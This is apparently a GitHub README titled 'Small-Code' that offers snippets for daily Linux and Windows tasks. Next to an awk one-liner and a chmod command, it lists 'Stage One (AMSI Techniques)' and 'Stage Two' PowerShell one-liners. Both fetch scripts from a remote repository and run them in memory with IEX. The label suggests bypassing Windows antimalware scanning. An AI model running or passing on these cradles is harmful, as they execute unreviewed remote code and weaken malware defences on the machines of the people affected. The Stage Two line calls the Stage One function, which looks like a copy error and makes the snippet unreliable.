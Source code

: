 ![alt text](https://github.com/HeeresS/Small-Code/blob/main/logo.png?raw=true)
# Small-Code
Small codes that will help with daily tasks for Linux and Windows. 
### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
## Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
## Stage Two
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1'); Invoke-StageOne
~~~

